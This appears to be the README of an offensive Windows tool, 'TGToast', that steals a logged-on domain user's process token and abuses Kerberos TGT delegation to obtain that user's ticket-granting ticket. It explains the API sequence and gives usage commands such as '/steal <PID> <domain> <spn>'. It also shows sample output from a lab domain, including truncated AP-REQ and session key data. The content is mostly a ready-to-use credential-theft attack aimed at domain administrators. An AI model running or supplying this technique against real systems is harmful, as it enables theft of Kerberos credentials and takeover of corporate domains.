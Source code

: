 # TGToast

```
 .\TGToast.exe

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/


Tool to perform TGT delegation abuse, with token stealing capabilities.

Usage: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe <option> [arguments]

Options:
  /list                                 Lists processes from other domain users.
  /steal <PID> <domain> <spn> [/enctype:TYPE]   Steals token, impersonates, and runs tgtdelegation.

  Encryption types (optional): aes256 (default), aes128, rc4

  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local
  Example: C:\Users\eddard.stark\source\repos\TGToasty\x64\Release\TGToasty.exe /steal 6969 corp.local CIFS/dc01.corp.local /enctype:aes256

```
## Purpose
The goal is to *impersonate* a user who is connected to a machine that is controlled by an attacker and recover their TGT. You need *elevated privileges* on the host.

First, we will steal a token from another user (for example some juicy *Domain Admins*). Then, we will use the *TGTDeleg technique*, which abuses the Kerberos GSS-API to retrieve a usable TGT for the current user. Next, *AcquireCredentialsHandle()* is used to retrieve the user's Kerberos security credentials. Then, *InitializeSecurityContext()* is called with the ISC_REQ_DELEGATE flag and a target SPN (such as HOST/DC.domain.com) to prepare a delegation context to be sent to the DC. This results in an AP-REQ in the GSS-API output containing a KRB_CRED structure in the authenticator field that includes the TGT.

## Usage
### List
```
./TGToast.exe /list

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[*] Current User: NORTH\eddard.stark
[*] Searching for processes belonging to other DOMAIN users...

PID    | User                                     | Process Name
----------------------------------------------------------------------------
2944   | NORTH\robb.stark                         | sihost.exe
596    | NORTH\robb.stark                         | svchost.exe
3080   | NORTH\robb.stark                         | taskhostw.exe
3272   | NORTH\robb.stark                         | ctfmon.exe
3524   | NORTH\robb.stark                         | explorer.exe
3760   | NORTH\robb.stark                         | ShellExperienceHost.exe
3840   | NORTH\robb.stark                         | SearchUI.exe
3956   | NORTH\robb.stark                         | RuntimeBroker.exe
4068   | NORTH\robb.stark                         | RuntimeBroker.exe
3120   | NORTH\robb.stark                         | RuntimeBroker.exe
968    | NORTH\robb.stark                         | smartscreen.exe
4860   | NORTH\robb.stark                         | mstsc.exe
```

### TGToasting
```
./TGToast.exe /steal 3524 north.sevenkingdoms.local CIFS/winterfell.north.sevenkingdoms.local

      _   __           __________________                 __
     ( `^` ))         /_  __/ ____/_  __/___  ____ ______/ /_
     |     ||          / / / / __  / / / __ \/ __ `/ ___/ __/
     |     ||         / / / /_/ / / / / /_/ / /_/ (__  ) /_
     '-----'`        /_/  \____/ /_/  \____/\__,_/____/\__/

[+] SeDebugPrivilege enabled.
[*] Attempting to steal token from PID 3524...
[+] Successfully stole token from user: NORTH\robb.stark
[*] Successfully impersonating user. Now attempting TGT delegation abuse...
----------------------------------------------------------------------------
[+] Target Domain (for reference): north.sevenkingdoms.local
[+] Target SPN: CIFS/winterfell.north.sevenkingdoms.local
[+] Successfully obtained a handle to the current credentials set!
[+] Successfully initialized the Kerberos GSS-API!
[+] The delegation request was successful! AP-REQ ticket is now in the GSS-API output.
[+] Successfully invoked LsaCallAuthenticationPackage! The Kerberos session key should be cached!

[+] AP-REQ output:
YI...(snip)...91pPYw==

[+] Kerberos session key:
Ab1lnjT...(snip)...pEcFY=

[+] Encryption:
AES256

[+] tgtdelegation succeeded under impersonated context!
----------------------------------------------------------------------------
[*] TGT delegation attempt finished. Reverting to original identity.
```

## ToDo
- Code rework, the current code is a poc, not the definitive code (and it's ugly)
- Extract TGT from ap-req using Session Key

## Credits
Many thanks to these projects, all I did was put the ideas together.
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs](https://github.com/GhostPack/Rubeus/blob/master/Rubeus/lib/LSA.cs)
- [https://github.com/connormcgarr/tgtdelegation/tree/master](https://github.com/connormcgarr/tgtdelegation/tree/master)
